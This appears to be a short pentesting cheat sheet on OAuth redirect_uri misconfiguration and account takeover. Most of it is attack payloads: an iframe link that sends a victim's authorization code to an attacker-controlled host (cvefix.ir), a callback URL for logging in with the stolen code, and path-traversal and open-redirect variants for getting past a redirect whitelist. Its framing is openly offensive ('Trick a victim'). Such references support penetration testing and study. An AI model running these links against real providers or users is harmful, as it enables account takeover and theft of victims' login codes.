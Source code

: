 # Basic
- The user redirects back to the redirect_uri with an access token

# Provider Vulnerability
- Trick a victim to open a malicious link with manipulated `redirect_uri` parameter to get the victim code before he is used.
- Provider checker function for `redirect_uri` should not be Fixed (be Dynamic) to be vulnerable.
- Malicious link
  ```bash
  <iframe src="https://[PROVIDER.net]/auth?client_id=[APPLICATION-CLIENT-ID]&redirect_uri=[https://cvefix.ir]&response_type=code&scope=openid%20profile%20email"></iframe>
  ```
- Login to application with victim code
  ```bash
  https://[TARGET.tld]/oauth-callback?code=[STOLEN-CODE]
  ```

# Application vulnerability
- Find an Open Redirect in the application, then use it for manipulating `redirect_uri` parameter to bypass the whitelist URL.
- Dynamic URL  →  `https://site.com/oauth/callback/?.*`
- Valid URLs
  ```bash
  https://site.com/oauth/callback/../../
  https://site.com/oauth/callback/../../test_path                    # hidden path
  https://site.com/oauth/callback/../../test_path?test_param=test    # hidden path + hidden parameter
  ```
- Malicious link
  ```bash
  ....redirect_url=https://site.com/oauth/callback/../../user/profile?next=https://cvefix.ir
  ```

# Resource 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/OAuth%20Misconfiguration
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover

